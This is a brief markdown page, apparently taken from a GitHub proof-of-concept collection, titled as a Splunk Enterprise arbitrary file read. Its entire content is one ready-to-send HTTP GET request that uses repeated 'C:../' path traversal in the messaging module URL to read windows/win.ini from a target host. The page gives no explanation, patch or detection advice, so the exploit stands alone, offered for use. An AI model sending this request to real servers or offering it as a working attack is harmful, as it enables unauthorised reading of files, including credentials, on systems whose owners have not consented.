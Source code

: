 # Splunk-Enterprise_fileread

from: https://github.com/wy876/POC/blob/main/Splunk-Enterprise%E4%BB%BB%E6%84%8F%E6%96%87%E4%BB%B6%E8%AF%BB%E5%8F%96%E6%BC%8F%E6%B4%9E.md

```
GET /en-US/modules/messaging/C:../C:../C:../C:../C:../C:../C:../C:../C:../C:../windows/win.ini HTTP/1.1
Host: x.x.x.x
User-Agent: Mozilla/5.0 (X11; CrOS x86_64 14541.0.0) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/109.0.0.0 Safari/537.36
Connection: close
Accept-Encoding: gzip
```

